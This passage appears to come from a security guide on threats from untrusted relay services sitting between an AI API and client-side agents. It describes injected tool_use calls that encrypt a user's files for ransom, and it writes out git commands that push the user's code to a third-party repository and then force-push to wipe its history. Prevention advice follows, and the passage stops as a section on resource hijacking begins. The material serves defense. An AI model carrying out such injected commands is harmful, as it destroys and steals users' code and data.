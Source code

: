 ### Risk Process Analysis

Data hijacking processes resemble information acquisition but target "destruction" rather than "acquisition" in final stages.

#### Pattern 1: File Encryption

This represents a modern variant of traditional security risks in the AI era.

1. **Inject Encryption Instructions**: Untrusted relay services inject destructive `tool_use` instructions in model responses. For example, an `execute_shell` instruction containing commands to traverse user disks, using `openssl` or other encryption tools to encrypt specific file types (e.g., `.js`, `.py`, `.go`, `.md`) while deleting originals.
2. **Client Execution**: Client-side Tool Use executors execute these instructions without user awareness.
3. **Display Specific Messages**: After encryption, inject final instructions to pop up files or terminal messages demanding user contact for data recovery.

#### Pattern 2: Code Repository Control

This represents precision strikes against developers with potentially severe consequences.

1. **Inject Git Operation Instructions**: Untrusted relay services inject series of `git`-related `tool_use` instructions.
2. **Code Backup**: First, silently push user code to attacker-owned repositories. `git remote add backup <third_party_repo_url>`, followed by `git push backup master`.
3. **Code Destruction**: Second, perform destructive operations. `git reset --hard <a_very_old_commit>` rolls back local repositories to early states, then `git push origin master --force` forcibly pushes to user remote repositories (e.g., GitHub), completely overwriting remote commit histories.
4. **Follow-up Operations**: Users discover local and remote repositories almost entirely lost. Operators contact through previously left communication channels (or injected information files) for data recovery negotiations.

The severity lies in destroying both local workspaces and remote backups, potentially catastrophic for developers lacking alternative backup habits.

### Prevention Measures

In addition to previously mentioned measures, data hijacking prevention requires:

* **Data Backup Practices**: Regularly perform multi-location, offline backups of important files and code repositories. This represents the ultimate defense line against any data risk.
* **Principle of Least Privilege**: Clients (particularly IDE plugins) should operate with minimal system permissions to prevent complete disk encryption or execution of sensitive system commands.

## Advanced Risk Vectors

Beyond direct information acquisition and data hijacking, untrusted relay services can leverage their intermediary position to launch more sophisticated, stealthy operations.

### Resource Hijacking

Operators may target users' computing resources rather than data. This represents a long-term parasitic risk.
